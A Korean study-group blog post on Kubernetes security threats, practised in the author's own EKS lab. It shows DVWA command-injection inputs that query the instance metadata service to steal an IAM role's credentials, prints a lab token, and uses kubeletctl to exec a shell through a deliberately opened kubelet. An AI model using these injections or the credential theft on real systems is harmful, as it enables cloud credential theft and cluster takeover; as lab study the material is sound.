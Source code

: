 ```yaml
---
published: true
layout: single
title: "[AEKS2] 6주차 - EKS Security: K8S 보안 위협"
excerpt: "6주차 - EKS Security: K8S 보안 위협 (OWASP Kubernetes Top Ten)"
categories: AWS
tag: [AWS, EKS, AEKS2, Kubernetes, Authentication, Authorization, OWASP]
toc: true
author_profile: false
sidebar:
    nav: "docs"
---
```


OWASP Kubernetes Top Ten에 K8S 보안 위협이 여럿 있다.

![Untitled](6%E1%84%8C%E1%85%AE%E1%84%8E%E1%85%A1%20-%20EKS%20Security%20K8S%20%E1%84%87%E1%85%A9%E1%84%8B%E1%85%A1%E1%86%AB%20%E1%84%8B%E1%85%B1%E1%84%92%E1%85%A7%E1%86%B8%20bf868216d90a4773a0c2ec258db56882/Untitled.png)

[https://awskoreamarketingasset.s3.amazonaws.com/2022 Summit/pdf/T10S1_EKS 환경을 더 효율적으로 더 안전하게.pdf](https://awskoreamarketingasset.s3.amazonaws.com/2022%20Summit/pdf/T10S1_EKS%20%ED%99%98%EA%B2%BD%EC%9D%84%20%EB%8D%94%20%ED%9A%A8%EC%9C%A8%EC%A0%81%EC%9C%BC%EB%A1%9C%20%EB%8D%94%20%EC%95%88%EC%A0%84%ED%95%98%EA%B2%8C.pdf)

이 중에서 몇 가지만 실습하고자 한다.

## POD의 IMDS API 악용

이번 실습은 EKS pod가 IMDS API를 악용하는 시나리오이다.

DVWA에서 자격증명을 탈취할 것이다.

DVWA(Damn Vulnerable Web Application)란,

취약점 진단 및 모의해킹을 할 수 있도록 만들어진 웹 어플리케이션이며, Command Injection 기능을 사용할 것이다.

[eks-practice/dvwa_webapp at main · choisungwook/eks-practice](https://github.com/choisungwook/eks-practice/tree/main/dvwa_webapp)

위 링크와 가시다님 노션을 참조하여 실습을 진행한다.

1. IMDS를 통해 토큰을 탈취한다.
    
    ```bash
    8.8.8.8 ; curl -s -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"
    ```
    
    ![Untitled](6%E1%84%8C%E1%85%AE%E1%84%8E%E1%85%A1%20-%20EKS%20Security%20K8S%20%E1%84%87%E1%85%A9%E1%84%8B%E1%85%A1%E1%86%AB%20%E1%84%8B%E1%85%B1%E1%84%92%E1%85%A7%E1%86%B8%20bf868216d90a4773a0c2ec258db56882/Untitled%201.png)
    
2. EC2 Instance Profile (IAM Role) 이름을 확인한다. 
    
    ```bash
    8.8.8.8 ; curl -s -H "X-aws-ec2-metadata-token: AQAEAHxCDIrx1WLNl5Bl_eEqPd5JfioAzbAxsG1N8WeOkguX5hzvUQ==" –v http://169.254.169.254/latest/meta-data/iam/security-credentials/
    ```
    
    ![Untitled](6%E1%84%8C%E1%85%AE%E1%84%8E%E1%85%A1%20-%20EKS%20Security%20K8S%20%E1%84%87%E1%85%A9%E1%84%8B%E1%85%A1%E1%86%AB%20%E1%84%8B%E1%85%B1%E1%84%92%E1%85%A7%E1%86%B8%20bf868216d90a4773a0c2ec258db56882/Untitled%202.png)
    
3. 얻어낸 토큰과 Role 이름으로 EC2 Instance Profile (IAM Role) 자격 증명을 탈취할 수 있다. 
    
    ```bash
    8.8.8.8 ; curl -s -H "X-aws-ec2-metadata-token: AQAEAHxCDIrx1WLNl5Bl_eEqPd5JfioAzbAxsG1N8WeOkguX5hzvUQ==" –v http://169.254.169.254/latest/meta-data/iam/security-credentials/eksctl-myeks-nodegroup-ng1-NodeInstanceRole-3JfVrafnCvK1
    ```
    
    ![Untitled](6%E1%84%8C%E1%85%AE%E1%84%8E%E1%85%A1%20-%20EKS%20Security%20K8S%20%E1%84%87%E1%85%A9%E1%84%8B%E1%85%A1%E1%86%AB%20%E1%84%8B%E1%85%B1%E1%84%92%E1%85%A7%E1%86%B8%20bf868216d90a4773a0c2ec258db56882/Untitled%203.png)
    

## Kubelet 미흡한 인증/인가 설정 시 위험

우선 kubelet의 사용 포트를 확인한다.

![Untitled](6%E1%84%8C%E1%85%AE%E1%84%8E%E1%85%A1%20-%20EKS%20Security%20K8S%20%E1%84%87%E1%85%A9%E1%84%8B%E1%85%A1%E1%86%AB%20%E1%84%8B%E1%85%B1%E1%84%92%E1%85%A7%E1%86%B8%20bf868216d90a4773a0c2ec258db56882/Untitled%204.png)

awscli가 설치된 테스트 POD를 생성하고

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: **myawscli**
spec:
  #serviceAccountName: my-sa
  containers:
    - name: my-aws-cli
      image: amazon/aws-cli:latest
      command: ['sleep', '36000']
  restartPolicy: Never
  terminationGracePeriodSeconds: 0
EOF
```

### testuser 터미널 접속

기존 kubeconfig를 삭제하고 시작한다. 

실습을 위해 kubeletctl을 설치한다.

```bash
**curl -LO https://github.com/cyberark/kubeletctl/releases/download/v1.11/kubeletctl_linux_amd64 && chmod a+x ./kubeletctl_linux_amd64 && mv ./kubeletctl_linux_amd64 /usr/local/bin/kubeletctl**
```

myawscli POD가 설치된 노드를 확인한 후에 해당 노드에 요청을 날려 본다.

```bash
# curl -k https://$N1:10250/pods; echo
Unauthorized
```

kubeconfig가 없고 아무 권한이 없으니 Unauthorized로 거부당했다. 

### admin 터미널 접속

노드에 접속하여 kubelet-config.json를 수정한다.

```bash
sudo vi /etc/kubernetes/kubelet/kubelet-config.json
```

authentication의 anonymous와 authorization의 mode를 수정하였다.

![Untitled](6%E1%84%8C%E1%85%AE%E1%84%8E%E1%85%A1%20-%20EKS%20Security%20K8S%20%E1%84%87%E1%85%A9%E1%84%8B%E1%85%A1%E1%86%AB%20%E1%84%8B%E1%85%B1%E1%84%92%E1%85%A7%E1%86%B8%20bf868216d90a4773a0c2ec258db56882/Untitled%205.png)

kubelet을 재시작한다.

```bash
sudo systemctl restart kubelet
systemctl status kubelet
```

### 다시 testuser 터미널 접속

권한이 없었는데 이제 kubeconfig가 없어도 접근이 된다.

```bash
curl -s -k https://$N1:10250/pods | jq
curl -k https://$N1:10250/configz | jq
```

![Untitled](6%E1%84%8C%E1%85%AE%E1%84%8E%E1%85%A1%20-%20EKS%20Security%20K8S%20%E1%84%87%E1%85%A9%E1%84%8B%E1%85%A1%E1%86%AB%20%E1%84%8B%E1%85%B1%E1%84%92%E1%85%A7%E1%86%B8%20bf868216d90a4773a0c2ec258db56882/Untitled%206.png)

POD 리스트도 볼 수 있는 것도 놀랐는데

`kubeletctl -s $N1 exec "/bin/bash" -n default -p myawscli -c my-aws-cli`

로 컨테이너에 접속해서 명령어 실행도 가능했다!!!

![Untitled](6%E1%84%8C%E1%85%AE%E1%84%8E%E1%85%A1%20-%20EKS%20Security%20K8S%20%E1%84%87%E1%85%A9%E1%84%8B%E1%85%A1%E1%86%AB%20%E1%84%8B%E1%85%B1%E1%84%92%E1%85%A7%E1%86%B8%20bf868216d90a4773a0c2ec258db56882/Untitled%207.png)

아무래도 다른 무엇보다 kubelet 설정을 잘못해서 보안이 뚫리게 된다는게 제일 위험할 듯하다.

작년에 EKS Challenge를 도전해 본적이 있는데

이 문제를 풀다 보면 보안 허점을 느낄 수 있어, 한번 풀어 보는 것을 추천한다!

[[DevOps/Kubernetes] EKS Challenge 도전!](https://gain-yoo.github.io/kubernetes/53/)